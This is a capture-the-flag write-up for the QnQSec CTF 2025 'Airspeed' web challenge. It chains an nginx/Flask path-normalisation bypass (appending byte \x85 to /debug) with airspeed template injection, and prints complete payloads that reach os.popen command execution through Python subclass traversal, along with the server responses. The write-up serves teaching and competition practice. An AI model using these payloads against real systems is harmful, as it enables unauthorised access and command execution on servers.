 

# WhiteDukesDZ - QnQSec CTF 2025 Writeup: Airspeed Web Challenge

![WhiteDukesDZ Logo](challenge/airspeed-challenge.png)


We were also provided with:
- `docker-compose.yml`
- `nginx.conf`
- `src` folder containing the web application source code

---

## Application Analysis

After analyzing `nginx.conf`, we can see there is a `/debug` endpoint that is denied. Accessing this endpoint directly results in a 403 status code response (Forbidden).

```conf
location = /debug {
    deny all;
    return 403;
}
```

By analyzing the web application files:

- We notice from the Dockerfile that `readflag.c` was compiled and placed in the root directory. Running `/readflag` from the web application container will display the flag.

- We notice from `app.py` that the web application uses the `airspeed` template engine.

- Nothing special was found in the other `app.py` endpoints since there are no user inputs, except for the `/debug` endpoint. When posting a JSON body with `name` set to a `value`, we receive back `Hello, value`:
    
    ```python
    @app.route('/debug', methods=['POST'])
    def debug():
        name = request.json.get('name', 'World')
        return airspeed.Template(f"Hello, {name}").merge({})
    ```

- We notice from `app.py` that the Flask server is run with `debug=True`.

    ```python
    if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True)
    ```

### Security Observations

- While the `/debug` endpoint is denied by the nginx server and returns a 403 response when accessed directly, the web application server (Flask) doesn't block this endpoint at all. For example, with a normal GET request to `/` and a POST request to `/debug` with a JSON body of `name=manini`, this is what actually happens:

![WhiteDukesDZ Logo](demonstration/post-example.png)


### The Workaround

If we find a way to confuse nginx into treating our endpoint as different from `/debug`, while simultaneously making Flask interpret it as `/debug`, we can successfully access the forbidden endpoint. We'll attempt to find a discrepancy between nginx and Flask by testing all possible bytes after `/debug`. Our request will be to `/debug` + `byte`. To automate this process, we created a Python script. See `solution/find_disrepency.py`. (Note that we used `socket` instead of `requests` so our added bytes don't get normalized).

After running `solution/find_disrepency.py`, we got:

```bash
└─$ python3 find_disrepency.py
Bypass found with byte \x85
```

When requesting `/debug\x85` (at the byte level), nginx sees `/debug\x85` != `/debug`, but the Flask server interprets `/debug\x85` == `/debug` and serves the response. Let's test this (see `solution/simple_manini_post.py`).

```bash
└─$ python3 simple_manini_post.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Mon, 20 Oct 2025 16:53:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: close

Hello, manini
```
Perfect. Notice that our provided `name=manini` is reflected back.

### Exploring Server-Side Template Injection

As mentioned earlier, the web application uses `airspeed` as its template engine. What if we can inject something that gets evaluated instead of just `manini`?

After reviewing the `airspeed` documentation at http://velocity.apache.org/engine/1.7/user-guide.html, we can try `name=#set( $foo = 7*7 )\n$foo`. After testing:

```bash
└─$ python3 simple_manini_post.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Mon, 20 Oct 2025 17:12:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 9
Connection: close

Hello, 49
```

Yes! The web application is vulnerable to SSTI. Our `7*7` expression was evaluated to `49`.

---

## Remote Code Execution

To get the flag, we need to run `/readflag` on the challenge instance. We already know the web application is vulnerable to SSTI, so we need to find a path to remote code execution.

Using `name=#set($s='')#set($base=$s.__class__.__mro__[1])#foreach($sub in $base.__subclasses__())$foreach.index: $sub\n#end` allows us to list available subclasses with their respective indexes. After execution, we have:

```bash
┌──(s450r1㉿S450R1)-[~/…/qnqsec-ctf-writeups/web/airspeed/solution]
└─$ python3 simple_manini_post.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Tue, 21 Oct 2025 00:17:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 20778
Connection: close

Hello, 0: <class 'type'>
...
479: <class 'jinja2.utils.Cycler'>
...
```

## Solution

Since `cycler` is available, we can use it to execute commands on the host server using `cycler.__init__.__globals__.os.popen('/readflag').read()`. This can be achieved with a payload like:

```json
{
    "name": "#set($x='')\n#set($cycler=$x.__class__.__mro__[1].__subclasses__()[479])\n#set($init=$cycler.__init__)\n#set($globals=$init.__globals__)\n#set($os=$globals.os)\n#set($popen=$os.popen('/readflag'))\n$popen.read()"
}
```

After running `solution/exploit.py`, we get:

```bash
┌──(s450r1㉿S450R1)-[~/…/qnqsec-ctf-writeups/web/airspeed/solution]
└─$ python3 exploit.py
HTTP/1.1 200 OK
Server: nginx/1.29.2
Date: Tue, 21 Oct 2025 01:18:38 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 41
Connection: close

Hello, QnQSec{n0w_th1s_1s_th3_r34l_f14g}
```


